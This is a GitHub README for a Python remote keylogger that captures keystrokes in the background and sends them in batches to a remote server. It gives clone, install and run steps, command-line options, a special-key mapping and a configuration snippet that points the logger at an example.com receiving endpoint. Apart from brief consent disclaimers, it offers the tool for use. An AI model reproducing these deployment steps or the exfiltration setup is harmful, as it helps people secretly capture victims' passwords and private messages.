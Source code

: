 Remote KeyLogger
<p align="center"> <img src="https://cdn.vectorstock.com/i/preview-1x/88/78/keylogger-cyber-security-icon-or-pictogram-vector-42318878.jpg" alt="Remote KeyLogger Logo"> </p>
🚀 Overview
The Remote KeyLogger is a sophisticated Python-based tool for capturing and transmitting keystrokes in real-time to a remote server. Designed with security and performance in mind, it is perfect for ethical monitoring, educational purposes, and secure logging.

⚠️ Disclaimer: This tool must be used in compliance with all legal regulations. Unauthorized or unethical use of this tool is strictly prohibited.

✨ Features
🔒 Real-Time Logging: Captures keystrokes as they happen, ensuring no data is missed.
📡 Remote Transmission: Securely sends logs to a remote server for centralized tracking.
🧹 Buffer Control: Logs are sent in batches for optimal performance and resource usage.
📝 Local Backup: Maintains local log storage as a backup.
🔑 Special Key Mapping: Recognizes and logs special keys like Enter, Space, Backspace, and more.
🛠️ Getting Started
To get started with the Remote KeyLogger, follow the simple steps below. This tool is easy to set up and highly customizable for your needs.

Use Cases: <br>
✔️ User Behavior Monitoring (with consent) <br>
✔️ Educational Purposes <br>
✔️ Security Auditing <br>
💻 Installation <br>
Clone the Repository:


<hr>
git clone https://github.com/tejasbargujepatil/Keylogger.py
<hr>
cd Keylogger.py
Install Required Dependencies:

<hr>
pip install -r requirements.txt
<hr>
Configure the Server:
Update the server_url in the Python script (main.py) to point to your log receiver endpoint.

Run the KeyLogger:


<hr>
python main.py
<hr>
🎯 Usage
After installation, the KeyLogger will begin logging keystrokes immediately.<br> It works in the background and periodically transmits logs based on your configured buffer size.

Command-line Options:
Log File: Customize the path where logs are stored locally.
Buffer Size: Adjust the number of keystrokes before sending logs to the server.
Example Command:


python main.py --log_file "path/to/logfile.txt" --buffer_size 100
Special Key Mapping:<br> 
Space -> <br> 
Enter -> \n  <br> 
Backspace -> [BACKSPACE]  <br> 
Arrow Keys -> [UP], [DOWN], [LEFT], [RIGHT]  <br> 
⚙️ Configuration
The KeyLogger allows you to easily adjust settings within the code, such as the buffer size, log file path, and remote server URL.

Example Configuration:
python
<hr>
server_url = "https://example.com/log_receiver"
logger = RemoteKeyLogger(server_url=server_url, buffer_size=50)
logger.run()
<hr>
🔐 Security Considerations <br> 
**Using this tool responsibly is crucial. Here are some best practices to ensure data privacy and security:**

Encryption: Transmit logs using HTTPS or add custom encryption for better protection.
Server Authentication: Ensure that only authorized entities can access the remote server.
Compliance: Always secure explicit consent from monitored users and ensure compliance with legal requirements. <br> <br> 
🛡️ License
This project is licensed under the MIT License – see the LICENSE file for details.

🤝 Contributing <br> <br> 
We welcome contributions to enhance this project! If you have ideas, improvements, or bug fixes, feel free to:

Fork the repository.
<hr>
git checkout -b feature/YourFeature
Commit Your Changes: <br> 
bash
<hr>
git commit -m 'Add new feature'
<hr><br> 
Push to the Branch:
<br> <hr>
git push origin feature/YourFeature
<hr>
Submit a Pull Request.
📧 Contact
If you have any questions or suggestions, feel free to reach out to the maintainer:

Maintainer: @Tejas_Barguje_Patil
Email: tejasbarguje9@gmail.com

📸 Keylogger Images
<p align="center"> <img src="https://th.bing.com/th/id/OIP.9rLBjMp_me0q2V4jcsUpwwAAAA?rs=1&pid=ImgDetMain" alt="Logging in Progress"> <br><i>Real-time logging in progress</i> </p> <p align="center"> <img src="https://gridinsoft.com/img/article/keylogger/logs-keylogger.webp" alt="Log Data Transmission"> <br><i>Transmitting log data securely</i> </p>
👏 Thank You for Exploring the Remote KeyLogger Project!
We hope this project serves your needs, whether for learning, monitoring, or auditing. Please ensure that all use remains ethical and in compliance with legal guidelines.

Badges (Optional)
<p align="center"> <img src="https://img.shields.io/github/stars/tejasbargujepatil/Keylogger.py.svg" alt="GitHub Stars"> <img src="https://img.shields.io/github/forks/tejasbargujepatil/Keylogger.py.svg" alt="GitHub Forks"> <img src="https://img.shields.io/github/license/tejasbargujepatil/Keylogger.py.svg" alt="License"> </p>
